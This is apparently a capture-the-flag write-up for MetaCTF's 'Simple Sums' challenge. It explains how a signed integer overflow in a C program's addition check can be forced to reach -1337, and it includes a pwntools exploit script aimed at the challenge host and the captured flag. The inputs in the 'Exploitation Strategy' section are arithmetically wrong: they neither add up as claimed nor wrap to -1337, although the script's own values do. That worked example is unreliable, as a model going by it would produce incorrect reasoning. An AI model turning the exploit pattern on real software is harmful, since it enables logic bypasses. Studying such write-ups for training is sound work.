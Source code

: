 # Simple Sums - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SimpleSums.gif)

---

## Challenge Summary

The program prompts the user for two **positive integers**, sums them, and prints the result. If the sum equals `-1337`, it reveals the flag. Though negative input is rejected, the program fails to check for **integer overflow**. By supplying large values that wrap around and cause the sum to equal `-1337`, the attacker can **trigger the win condition** and access `flag.txt`.

## Binary Information

```bash
$ file simplesums
```

![Alt text](img/2.png)

```bash
$ pwn checksec simplesums
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Analyzing the program in CLion reveals:

- The program takes **two positive integers** as input using `scanf()`, rejecting zero or negative values.
- It calculates their sum and stores it in a signed 32-bit `int` named `sum`.
- The sum is printed as an unsigned integer (`%u`), which hides negative results due to overflow.
- The key vulnerability lies in the condition:

  ```c
  if (sum == -1337)
  ```

  This condition can only be true if an **integer overflow** occurs, wrapping a large positive sum into a negative value.

- There is **no overflow check** after the addition. As a result, this logic can be bypassed by carefully chosen large inputs that produce `-1337` as a 32-bit signed result.
- If the condition is met, the program runs:

  ```c
  system("/bin/cat flag.txt");
  ```

  to print the flag.

CLion’s debugger and static analysis tools make it easy to trace variable values and spot the lack of bounds enforcement on the addition step.

---

## Exploitation Strategy

The goal is to make the sum of two **positive integers** equal `-1337` using a **signed integer overflow**. Since `sum` is a signed `int`, large values can wrap around into the negative range.

To exploit this:

- Find two large positive integers `a` and `b` such that `a + b == -1337` (in 32-bit signed math).
- For example, use:

  ```
  a = 2147482313
  b = 6666
  ```

  Because `2147482313 + 6666 == 2147488980`, which wraps to `-1337`.

This bypasses the positivity checks and triggers the condition `if (sum == -1337)`, printing the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template simplesums --host host5.metaproblems.com --port 5030
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'simplesums')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5030)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# (unsigned int)(-1337) = 2^32 - 1337 = 4294965959
# a + b == 4294965959

a = b'2147482312'
b = b'2147483647'
io.sendline(a)
io.sendline(b)
io.recvuntil(b"Good job! Here's your flag:")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program reads two positive integers from the user and adds them, but it does not check for **integer overflow**. Since `sum` is a signed integer, users can input large values that **wrap around** to negative numbers. By supplying inputs that cause the sum to equal `-1337` due to overflow, an attacker can bypass the logic and trigger the hidden `flag.txt` read.

---

## Flag

```
MetaCTF{c0unting_beyond_infinity}
```
